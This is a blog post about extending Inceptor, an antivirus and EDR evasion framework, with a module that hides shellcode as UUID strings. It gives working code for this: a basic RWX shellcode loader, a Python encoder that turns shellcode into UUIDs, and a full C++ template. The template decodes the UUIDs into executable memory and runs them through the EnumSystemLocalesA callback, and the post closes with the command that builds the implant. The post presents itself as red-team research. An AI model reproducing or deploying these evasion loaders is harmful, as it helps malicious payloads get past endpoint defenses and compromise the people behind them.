


# Implementing Shellcode Retrieval

Recently, I developed a PoC AV/EDR Framework, called [Inceptor][1]. More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../../AV_Evasion/CodeExeNewDotNet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:



As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 



Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

[Back](..)

[Back to Home](https://klezvirus.github.io/)

[1]: https://github.com/klezVirus/inceptor.git